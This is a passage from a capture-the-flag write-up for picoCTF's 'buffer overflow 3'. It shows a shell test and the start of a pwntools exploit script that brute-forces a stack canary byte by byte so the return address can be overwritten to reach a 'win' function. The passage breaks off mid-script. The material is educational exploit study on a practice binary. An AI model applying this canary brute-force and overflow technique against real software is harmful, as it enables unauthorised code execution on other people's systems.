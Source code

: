 But if we get it right, we'll see:
```console
root@kali:/media/sf_CTFs/pico/buffer_overflow_3# { echo "33"; python -c 'print "A"*32 + "f"';} | ./vuln
How Many Bytes will You Write Into the Buffer?
> Input> Ok... Now Where's the Flag?
```


Using this, we can brute force the canary, and then override the return address to jump to `win`.

The script:
```python
from pwn import *
import argparse
import os
import simple_cache

EXECUTABLE = "vuln"
LOCAL_PATH = "./"
REMOTE_PATH = "/problems/buffer-overflow-3_3_6bcc2aa22b2b7a4a7e3ca6b2e1194faf/"
SSH_SERVER = "2018shell3.picoctf.com"

CANARY_LEN = 4
PADDING_LEN = 32

def get_process_path(is_ssh = False):
    if is_ssh or os.path.exists(REMOTE_PATH):
        return REMOTE_PATH + EXECUTABLE
    else:
        return LOCAL_PATH + EXECUTABLE

def get_process(ssh_session = None):
    is_ssh = ssh_session is not None
    path = get_process_path(is_ssh)
    params = {"argv": path, "cwd": os.path.dirname(path)}
    if is_ssh:
        p = ssh_session.process(**params)
    else:
        p = process(**params)
    return p

def send_payload(proc, payload):
    proc.sendlineafter("How Many Bytes will You Write Into the Buffer?\n>", str(len(payload)))
    proc.sendlineafter("Input> ", payload)
    out = proc.recvall()
    return out

def guess_canary(ssh_session, guess):
    while True:
        try:
            context.log_level = 'error'
            out = send_payload(get_process(ssh_session), fit({PADDING_LEN: guess}))
            context.log_level = 'info'
            if "Stack Smashing Detected" in out:
                return False
            return True
        except (socket.error, socket.gaierror, socket.herror, socket.timeout) as e:
            print str(e)

#@simple_cache.cached('canary.db')
def get_canary(ssh_session):
    canary = ""
    while len(canary) != CANARY_LEN:
        for x in range(ord(" "), ord("~")+1):
```